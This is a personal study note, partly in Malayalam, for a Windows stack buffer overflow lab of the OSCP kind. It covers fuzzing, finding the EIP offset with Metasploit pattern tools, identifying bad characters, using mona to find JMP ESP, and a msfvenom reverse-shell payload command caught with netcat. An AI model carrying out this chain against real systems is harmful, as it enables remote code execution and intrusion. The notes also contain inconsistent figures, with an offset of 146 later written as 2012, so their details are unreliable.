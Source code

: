 tib3rius(BOF) -->https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst
oscp -->https://github.com/Tib3rius/Pentest-Cheatsheets
.reference-->https://www.hackingarticles.in/a-beginners-guide-to-buffer-overflow/#:~:text=EIP%20offset%20is%20the%20exact%20value%20that%20gives,malicious%20code%20so%20that%20it%20could%20be%20executed.

There are two types of Buffer Overflow--**Heap Buffer Overflow**  ,  **Stack Buffer Overflow Attack**(most common)

Buffer Overflow works across different platforms including Linux, Windows and any other flavour out there because it deals with memory rather than what’s built on top of it.Since, dealing with memory registers in Linux can be a bit difficult to go head first, we make a smart choice of first understand the various steps and techniques of Buffer Overflow on a Windows Machine with an executable before moving on further.

Immunity Debugger is a tool that we can use for malware analysis, exploit writing and reverse engineering binary files. In this practical, we will use Immunity Debugger to see how buffer overflow occurs in a binary by analyzing the registers, hex values, memory addresses, etc.

                     =============== **EXERCISE (windows):**  ===============
-->first nammal immunity debugger eduth vulnerable app run chyyunu.ath paused statil ayirikum undavuka.so run chyuka.athil port 31337 listern chyunu enn kanikum.so ini namalude kaliyil varuka and make sure that port is runnng
-->nmap [target ip]
      Once it is confirmed that the application is listening on port 31337 we can move forward and check how the application functions. We will use Netcat to interact with the application.
-->nc [target ip] 31337
    ivide namuk test,enthengilum adikuka ok.Next, we will try to **fuzz** the application and see if we can crash it or not.
-->Here we are using a Fuzzer that generates a bunch of A’s (\x41) and sends it to our vulnerable application. The number of A’s is incremented every time because of a while loop present in the Fuzzer’s code. Fuzzer repeats the process until and unless it detects a crash in the application and couldn’t connect to it anymore.
-->fuzz chyunathin mumb immunity debuggeril poi app running thanne aano enn urapp varuthuka.oru python script und fuzz chyan.ath vechan fuzz chyunath.
-->After running the Fuzzer, we can see that the Fuzzer stopped after sending 160 bytes of data in the application
-->If we check the process state in Immunity Debugger, we could see that the application is in the paused state now. One more thing to be noticed is that the ESP register has overflown with A’s. This confirms that the application will crash if we send 160 A’s or 160 bytes of data in it.

**Registers**
  -   **EAX –** It is an accumulator register used to perform arithmetic calculations like add, subtract, compare and store the return values from function calls.
  -   **ECX –** This register acts like a counter used for iterations, it counts in a downward manner.
  -   **EDX –** This register holds extra data to perform complex calculations like multiply and divide. It acts as an extension of the EAX register.
  -   **EBX –** It is the base register that doesn’t have any defined purpose, it can be used to store data.
  -   **ESP –** It is the stack pointer. It indicates the location in the memory where the current instruction starts. It always points to the top of the stack.
  -   **EBP –** It is the base pointer that points to the base of the stack.
  -   **ESI –** It is known as the source index register which holds the location of the input data.
  -   **EDI –** It is the destination index register which points to the location where the result of the processed data is stored.
  -   **EIP –** It is the instruction pointer register. It is a read-only register that holds the address of the next instruction which is to be read.

                     =======  **Offset Discovery & Controlling EIP**  ==========
-->EIP offset is the exact value that gives us the information that how many bytes will fill the buffer and overflow into the return address (EIP).
-->Controlling the EIP is a very crucial part of buffer overflow attacks because EIP is the register that will ultimately point to our malicious code so that it could be executed. While fuzzing the application we saw that it was crashing at 160 bytes which means that EIP is located somewhere between 1 and 160 bytes. So, we will use a pattern creation tool in MSF which generates a **pattern** of certain bytes and it will lead us in finding the exact offset value. We will generate a pattern of 200 bytes. 40 bytes more for a little bit extra padding.
         --> msf-pattern_create -l 200
-->ee 20 bytes of data nammal oru python script il payload variablil aaki run chyunu.run chyunathin mumb aa app debuggeril restart chyuka ok.
            -->python exploit.py
-->Upon execution, the script will crash the application. We can confirm it by going back to our debugger.
-->ESP register now shows the pattern which we had sent to the application to crash it. Now if we look at the EIP register the value is **39654138**. We will use this value to find the EIP offset. To find it we will be using the pattern offset tool of MSF:
            -->msf-pattern_offset –l 200 –q 39654138
-->By using the above command, we found an exact match at offset 146. So, our EIP offset is **146**.
-->**Next, we will update our exploit code accordingly. As we now know the EIP offset value, we don’t need to send the pattern anymore. We can simply send 146 A’s in place of the pattern. We will send 4 B’s after 146 A’s as to ensure whether we can control the EIP or not. If the EIP register has 4 B’s after the execution of the exploit, then it will be confirmed that we can control the EIP now.**
-->so nammal python script il pinem update chyth payload = **A * 146 + eip(ie B *4*)** kodukunu
-->After updating the exploit code, we will run it again to check if we can control the EIP or not (don’t forget to re-run the application in Immunity Debugger before running the exploit).
-->As we can see in the above image, the EIP register has “42424242”. The hexadecimal value of ASCII character “B” is 0x42. So, it is confirmed at this point that we can control the EIP register.

                    =========== **Finding Bad Characters**  ===============
-->Bad characters are unwanted characters that break the shellcode. Finding and omitting the bad characters are necessary because bad characters terminate the string execution where ever they appear. If there is any bad character present in our shellcode in the end, then its execution will be stopped where ever the bad character is situated, so we will be omitting all the bad characters while generating our shellcode.
-->To find the bad characters we will first generate all characters with a python script and send it to the application to crash and analyze it. The code present below generates all characters from x01 to xff without x00 as x00 is a bad character by default. x00 is known as the null byte.
         -->script oke site il nokiyamthi ilengi tryhack me yil und.badchar.py enno matto peru iduka
-->ee x01 -xff vere ulla random characters nerthe pole script il itt veendum app crash aakuka ennit analyze chyuka
-->**After running the updated script, we will compare the hex dump of ESP with all characters to look for any bad character appearing in the memory. To do so, we will select ESP and then select follow in the dump.**
-->nammal code il ==b"A" * number +b "B" *4* +bad chars== ennan kodukunath.ie,==EAX+AIP+ESP==. esp il bad charecters kodukunath kondan follow in the dump select chyunath.ok. 
-->Now, if we compare the hex dump with all characters that we sent then we will see that everything is going pretty fine from 01 to 09 but after 09, 21 is there instead of 0A. This means that “\x0a” is a bad character.
           **hexadecimals-->1,2,3,4,5,6,7,8,9, and A,B,C,D,E,F**
-->Once we have found a bad character, we need to remove it from our exploit code and send it again to search for the next bad character. We need to repeat these steps until and unless our exploit is completely bad characters free.
-->Now that our exploit is bad characters free, we need to find out the JMP ESP.

                  ===== **JMP ESP(finding a jump point)**  ===============
-->when we execute a shellcode on a programm/application,we want to make sure that the EIP is pointing to our shellcode because that is the return address
-->if you want to execute a shell code,you need to find the adress of the shell code and then write the adress in the EIP __address___    
-->in an ideal senario,its really impossible to find out where in memory our shell code is.but ivide oru easy aaya reethi kanikunund ok.
-->in assembly there is an instruction-JMP ESP-means that jump the point of execution to the esp and continue executing whatever is there or whatever is pointed by the ESP.
--> **When an access violation occurs, the ESP register points to memory which contains the data which we had sent to the application. JMP ESP Instruction is used to redirect the code execution to that location. To find the JMP ESP we need to use a module of mona with –cpb option and all the bad characters that we found earlier, this will avoid mona returning memory pointer having bad characters. After running the command we need to open up log data.
                               -->!mona jmp -r esp -cpb "\x00\x0a"**
-->This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).
-->Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.
-->Once we open up the log data window, we can see in the below image that mona has found 2 pointers. Both the pointers are having all the security mitigations like ASLR, Rebase, SafeSEH turned off. So, we will choose one of the pointers and follow it in disassembler.
-->Once we hit “Follow in Disassembler” the CPU-thread window will open up again.we have found the JMP ESP address to be **080414C3**.ee address(number) nammal python script il iduka.idumbol sredhikuka O.S architechture anusarich idanam.x86(32 bit processors)aanenkil reverse aayi idanam , x64 aanenkil nere thane ital mathi

             =============== **Prepend NOPs** ====================
-->Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:
      -->padding = "\x90" * 16 (pading um oru variable aan python script le)
	  
               =============== **Generate Payload**  ===============
-->Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):
     -->msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c
	 here we use -f c because we need it to be c file and it is important
-->Copy the generated C code strings and integrate them into your exploit.py script payload variable.

**Final Exploit**
-->Now that we have generated our shellcode as well, it’s time that we make all the necessary changes in our exploit and make it ready to gain a reverse shell. We don’t need all characters now. We will insert our generated shellcode in place of “allchars”. So, the basic architecture of our exploit will be  **146 A’s as junk value + JMP ESP + NOPs + Shellcode.**
-->-->**b "A" *2012 + b"\address..\..\" +b "\x90" * 32 +payload(created from msfvenom)**
      ingane aan python script il reverse shell kitan vendi idendath

                 ===============  **Reverse Shell**  ===============
-->Since, we have already done all the necessary steps that were required to get a --reverse shell, now we can just start the Netcat listener on port 4444 and run the exploit. As we can see in the image, we successfully exploited the buffer overflow vulnerability present in the application and gained a reverse shell.



